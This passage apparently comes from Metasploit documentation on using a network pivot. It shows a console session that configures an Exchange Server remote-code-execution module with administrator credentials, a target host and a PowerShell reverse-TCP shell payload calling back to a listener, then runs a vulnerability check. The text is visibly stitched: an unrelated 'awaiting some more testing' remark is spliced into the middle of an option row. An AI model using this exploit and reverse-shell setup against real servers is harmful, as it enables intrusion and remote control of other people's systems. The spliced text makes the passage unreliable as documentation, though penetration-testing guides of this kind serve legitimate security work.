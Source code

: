 
## Using the Pivot
At this point we can now use the pivot with any Metasploit modules as shown below:

```msf
msf6 exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) > show options

Module options (exploit/windows/http/exchange_chainedserializationbinder_denylist_typo_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  thePassword      yes       The password to use to authenticate to the Ex
                                            change server
   HttpUsername  administrator    yes       The username to log into the Exchange server
                                            as
   Proxies                        no        A proxy chain of format type:host:port[,type:
                                            host:port][...]
   RHOSTS        169.254.204.110  yes       The target host(s), see https://github.com/ra
                                            pid7/metasploit-framework/wiki/Using-Metasplo
                                            it
   RPORT         443              yes       The target port (TCP)
   SRVHOST       0.0.0.0          yTo come, awaiting some more testing hold on :)es       The local host or network interface to listen
                                             on. This must be an address on the local mac
                                            hine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is
                                            randomly generated)
   TARGETURI     /                yes       Base path
   URIPATH                        no        The URI to use for this exploit (default is r
                                            andom)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         172.19.182.171   yes       The listen address (an interface may be speci
                                            field)
   LOAD_MODULES                   no        A list of powershell modules separated by a c
                                            omma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) > check

[*] Target is an Exchange Server!
[*] 169.254.204.110:443 - The target is not exploitable. Exchange Server 15.2.986.14 does not appear to be a vulnerable version!
msf6 exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) >
```
